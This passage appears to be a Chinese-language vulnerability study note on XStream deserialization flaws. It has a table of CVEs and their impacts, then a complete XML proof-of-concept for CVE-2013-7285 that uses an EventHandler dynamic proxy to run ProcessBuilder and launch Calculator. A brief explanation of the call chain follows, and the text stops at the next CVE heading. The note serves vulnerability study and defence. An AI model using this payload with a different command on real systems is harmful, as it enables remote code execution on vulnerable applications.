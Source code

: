 # 简介

当用户可控的输入直接作为xstream.fromXML(xml)的参数时，可能导致反序列化漏洞，目前为止涉及的cve如下：


|CVE ID |	PoC           |desc| 
| ---- | ---- | ---- | 
|CVE-2013-7285  | | <= 1.4.6|
|CVE-2021-39139	| RCE           | JDK版本要在7u21及以下 |
|CVE-2021-39140	| DoS           |        |
|CVE-2021-39141	| JNDI Based RCE|        |
|CVE-2021-39144	| RCE           | 无限制  |    
|CVE-2021-39145	| JNDI Based RCE|        |
|CVE-2021-39146	| JNDI Based RCE|        |
|CVE-2021-39147	| JNDI Based RCE|        |
|CVE-2021-39148	| JNDI Based RCE|        |
|CVE-2021-39149	| RCE           | 无限制  |
|CVE-2021-39150	| SSRF          |        |
|CVE-2021-39151	| JNDI Based RCE|        |
|CVE-2021-39152	| SSRF          |        |
|CVE-2021-39153	| RCE           | JDK版本限制在8到14且要求同时安装了JavaFX |
|CVE-2021-39154	| JNDI Based RCE|        |



## CVE-2013-7285

poc:

```
<sorted-set>
    <string>foo</string>
    <dynamic-proxy> <!-- Proxy 动态代理，handler使用EventHandler -->
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>/Applications/Calculator.app</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

### CVE-2013-7285原理
调用链的DynamicProxyConverter#unmarshal方法中，会调用到Proxy.newProxyInstance(this.classLoaderReference.getReference(), interfacesAsArray, handler)，java动态代理机制，


## CVE-2021-39139